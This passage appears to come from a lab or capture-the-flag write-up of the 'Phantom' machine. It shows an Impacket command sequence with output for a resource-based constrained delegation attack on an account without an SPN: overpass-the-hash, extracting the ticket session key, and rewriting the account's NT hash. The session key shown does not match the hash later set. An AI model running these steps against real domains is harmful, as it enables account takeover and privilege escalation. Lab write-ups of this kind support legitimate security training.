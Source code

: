 ![alt text](<../assets/images/Screenshot 2025-03-20 at 00-01-56 (RBCD) Resource-based constrained The Hacker Recipes.png>)

#### Obtain a TGT through overpass-the-hash to use RC4
```sh
➜  Phantom python3 /opt/impacket/examples/getTGT.py -hashes :$(pypykatz crypto nt 'NewPassword123') phantom.vl/crose
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in crose.ccache
```

#### Obtain the TGT session key
```sh
➜  Phantom python3 /opt/impacket/examples/describeTicket.py crose.ccache | grep 'Ticket Session Key'
[*] Ticket Session Key            : 42046f1ee64b01347c4ae55166af3358
```

#### Change the controlledaccountwithoutSPN's NT hash with the TGT session key
```sh
➜  Phantom python3 /opt/impacket/examples/changepasswd.py -newhashes :909966db043b51920ee3a5156e154f8b phantom.vl/crose:'NewPassword123'@dc.phantom.vl
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of phantom.vl\crose
[*] Connecting to DCE/RPC as phantom.vl\crose
[*] Password was changed successfully.
```
